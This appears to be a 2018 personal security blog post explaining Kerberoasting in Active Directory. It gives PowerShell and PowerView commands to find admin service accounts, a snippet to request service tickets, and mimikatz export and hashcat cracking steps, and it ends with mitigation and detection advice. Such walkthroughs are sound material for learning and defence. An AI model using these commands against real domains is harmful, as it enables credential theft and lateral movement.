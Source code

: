 ```yaml
---
layout: single
title: 2018-08-28 kerberoasting
modified:
categories: blog
date: 2018-08-28T08:08:50-04:00
---
```


# Kerberoasting!
Lets talk about some old security here. Kerberos! This is a couple years old but sadly still works. Kerberos is the authentication system for windows and ad networks. There is an exploit that allows us to get back a poorly encrypted hash of valuable logins all directly from the domain controller, this is done once you have an authenticated user, so it isn't the main way in but once you have a foothold you can pivot to a more useful account. Lets have a brief breakdown of how kerberos works, borrowed from https://adsecurity.org/?p=3458

User logs on with username & password.
1a. Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request (AS-REQ).
1b. The Domain Controller (KDC) checks user information (logon restrictions, group membership, etc) & creates Ticket-Granting Ticket (TGT).
2. The TGT is encrypted, signed, & delivered to the user (AS-REP). Only the Kerberos service (KRBTGT) in the domain can open and read TGT data.
3. The User presents the TGT to the DC when requesting a Ticket Granting Service (TGS) ticket (TGS-REQ). The DC opens the TGT & validates PAC checksum - If the DC can open the ticket & the checksum check out, TGT = valid. The data in the TGT is effectively copied to create the TGS ticket.
4. The TGS is encrypted using the target service accounts' NTLM password hash and sent to the user (TGS-REP).
5.The user connects to the server hosting the service on the appropriate port & presents the TGS (AP-REQ). The service opens the TGS ticket using its NTLM password hash.
6. If mutual authentication is required by the client (think MS15–011: the Group Policy patch from February that added UNC hardening).
Unless PAC validation is required (rare), the service accepts all data in the TGS ticket with no communication to the DC.
Alright so lets just dive right in to the nitty gritty here. We are going to do this on a windows box with powershell and the active directory module.
The return will look something like "MSSQLSvc/adsmsDB01.adsecurity.org:1433", then "MSSQLSvc" is the SPN type. The SPN is really the important part of the initial scan because we will want to find specific types of SPNs. Such as:
AGPMServer: Often has full control rights to all GPOs.
MSSQL/MSSQLSvc: Admin rights to SQL server(s) which often has interesting data.
FIMService: Often has admin rights to multiple AD forests.
STS: VMWare SSO service which could provide backdoor VMWare access.
To do the actual querying we can use the Get-ADUser cmdlet:
```
get-aduser -filter {AdminCount -eq 1} -prop * | select name,created,passwordlastset,lastlogondate
```
We can also use PowerView's Get-NetUser cmdlet:
```
Get-NetUser -AdminCount | Select name,whencreated,pwdlastset,lastlogon
```
Once we have an SPN then lets get the querying for the vulnerable hash type
```
$SPNName = 'MSSQLSvc/adsmsDB01.adsecurity.org:1433'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```
We can then use "$ klist "in order to get the listing of the hash and from there we can use mimikatz in order to export.

```$ mimikatz 
$ kerberos::list /export```
Then we just drop that hash into hashcat with a word list and we are good to go.
Sadly this vulnerability is over 4 years old, it is still out there. In order to mitigate it the recommendation is ensuring service account passwords are longer than 25 characters (and aren't easily guessable). Also enabling logging and then dropping that log information into a SIEM where you can look for specific "4769 events" and and Ticket_Encryption_Type= : 0x17. Good luck!
links:
https://adsecurity.org/?p=2293 : "Cracking Kerberos TGS Tickets Using Kerberoast - Exploiting Kerberos to Compromise the Active Directory Domain"
https://adsecurity.org/?p=3466 : "Sneaky Persistence Active Directory Trick #18: Dropping SPNs on Admin Accounts for Later Kerberoasting."